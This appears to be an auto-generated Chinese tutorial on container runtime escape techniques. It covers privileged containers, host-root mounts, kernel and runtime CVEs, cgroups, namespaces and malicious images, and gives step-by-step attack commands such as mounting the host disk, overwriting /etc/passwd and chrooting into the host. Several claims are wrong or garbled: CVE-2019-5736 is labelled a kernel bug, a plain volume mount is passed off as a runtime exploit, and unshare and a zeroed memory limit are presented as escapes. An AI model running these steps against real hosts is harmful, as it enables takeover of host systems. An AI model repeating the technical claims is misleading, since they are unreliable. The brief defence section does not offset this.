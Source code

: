 # 容器运行时逃逸的攻击技术

## 1. 概述

容器运行时逃逸是指攻击者通过利用容器运行时的漏洞或配置不当，突破容器的隔离机制，获取宿主机或其他容器的控制权限。容器运行时逃逸是容器安全领域的重要威胁之一，可能导致严重的安全事件。本文将深入探讨容器运行时逃逸的常见攻击手法、技术原理、变种和高级利用技巧，并提供详细的攻击步骤和实验环境搭建指南。

## 2. 技术原理解析

### 2.1 容器隔离机制

容器通过Linux内核的命名空间（Namespaces）和控制组（Cgroups）实现资源隔离。命名空间用于隔离进程、网络、文件系统等资源，而Cgroups用于限制和监控资源使用。容器运行时（如Docker、containerd）通过调用这些内核机制来创建和管理容器。

### 2.2 容器运行时逃逸的根源

容器运行时逃逸的根源在于容器与宿主机共享内核，且容器的隔离机制并非完全隔离。攻击者可以通过以下途径实现逃逸：

- **内核漏洞利用**：利用Linux内核的漏洞，突破命名空间和Cgroups的限制。
- **配置不当**：利用容器运行时的错误配置，如特权模式、挂载敏感目录等。
- **运行时漏洞**：利用容器运行时的漏洞，如Docker、containerd等的漏洞。

## 3. 常见攻击手法

### 3.1 特权容器逃逸

**技术原理**：特权容器（Privileged Container）拥有对宿主机内核的完全访问权限，可以绕过容器的隔离机制。攻击者可以通过挂载宿主机文件系统、加载内核模块等方式实现逃逸。

**攻击步骤**：
1. 启动特权容器：
   ```bash
   docker run --privileged -it ubuntu bash
   ```
2. 挂载宿主机文件系统：
   ```bash
   mkdir /mnt/host
   mount /dev/sda1 /mnt/host
   ```
3. 修改宿主机文件：
   ```bash
   echo "malicious content" > /mnt/host/etc/passwd
   ```

### 3.2 挂载逃逸

**技术原理**：攻击者通过挂载宿主机的敏感目录（如`/proc`、`/sys`、`/dev`等），获取对宿主机的控制权限。

**攻击步骤**：
1. 启动容器并挂载宿主机目录：
   ```bash
   docker run -v /:/mnt/host -it ubuntu bash
   ```
2. 修改宿主机文件：
   ```bash
   echo "malicious content" > /mnt/host/etc/passwd
   ```

### 3.3 内核漏洞利用

**技术原理**：利用Linux内核的漏洞（如Dirty COW、CVE-2019-5736等），突破容器的隔离机制。

**攻击步骤**：
1. 在容器中编译并运行漏洞利用程序：
   ```bash
   gcc -o exploit exploit.c
   ./exploit
   ```
2. 获取宿主机shell：
   ```bash
   chroot /host /bin/bash
   ```

### 3.4 运行时漏洞利用

**技术原理**：利用容器运行时的漏洞（如Docker的CVE-2019-14271、containerd的CVE-2021-41103等），实现逃逸。

**攻击步骤**：
1. 利用漏洞获取宿主机权限：
   ```bash
   docker run --rm -v /:/host alpine chroot /host /bin/bash
   ```

## 4. 变种和高级利用技巧

### 4.1 利用Cgroups逃逸

**技术原理**：通过修改Cgroups配置，绕过资源限制，获取对宿主机的控制权限。

**攻击步骤**：
1. 修改Cgroups配置：
   ```bash
   echo 0 > /sys/fs/cgroup/memory/memory.limit_in_bytes
   ```
2. 运行资源密集型程序，导致宿主机资源耗尽。

### 4.2 利用命名空间逃逸

**技术原理**：通过创建新的命名空间，绕过容器的隔离机制。

**攻击步骤**：
1. 创建新的命名空间：
   ```bash
   unshare --mount --uts --ipc --net --pid --fork /bin/bash
   ```
2. 挂载宿主机文件系统：
   ```bash
   mount /dev/sda1 /mnt/host
   ```

### 4.3 利用容器镜像逃逸

**技术原理**：通过构建恶意容器镜像，在容器启动时执行恶意代码。

**攻击步骤**：
1. 构建恶意镜像：
   ```Dockerfile
   FROM alpine
   COPY exploit.sh /exploit.sh
   CMD ["/bin/sh", "/exploit.sh"]
   ```
2. 运行恶意镜像：
   ```bash
   docker build -t malicious-image .
   docker run malicious-image
   ```

## 5. 实验环境搭建指南

### 5.1 实验环境准备

- **宿主机**：Ubuntu 20.04 LTS
- **容器运行时**：Docker 20.10.7
- **工具**：gcc、unshare、mount

### 5.2 实验步骤

1. 安装Docker：
   ```bash
   sudo apt-get update
   sudo apt-get install docker.io
   ```
2. 启动特权容器：
   ```bash
   docker run --privileged -it ubuntu bash
   ```
3. 挂载宿主机文件系统：
   ```bash
   mkdir /mnt/host
   mount /dev/sda1 /mnt/host
   ```
4. 修改宿主机文件：
   ```bash
   echo "malicious content" > /mnt/host/etc/passwd
   ```

## 6. 防御措施

- **限制特权容器**：避免使用`--privileged`参数启动容器。
- **限制挂载**：避免挂载宿主机的敏感目录。
- **更新内核和运行时**：及时修复已知的内核和容器运行时漏洞。
- **使用安全配置**：启用AppArmor、SELinux等安全模块，限制容器的权限。

## 7. 总结

容器运行时逃逸是容器安全领域的重要威胁，攻击者可以通过多种途径突破容器的隔离机制，获取对宿主机的控制权限。本文详细介绍了容器运行时逃逸的常见攻击手法、技术原理、变种和高级利用技巧，并提供了详细的攻击步骤和实验环境搭建指南。通过理解这些攻击技术，可以更好地防御容器运行时逃逸，保障容器环境的安全。

---

*文档生成时间: 2025-03-14 09:35:25*
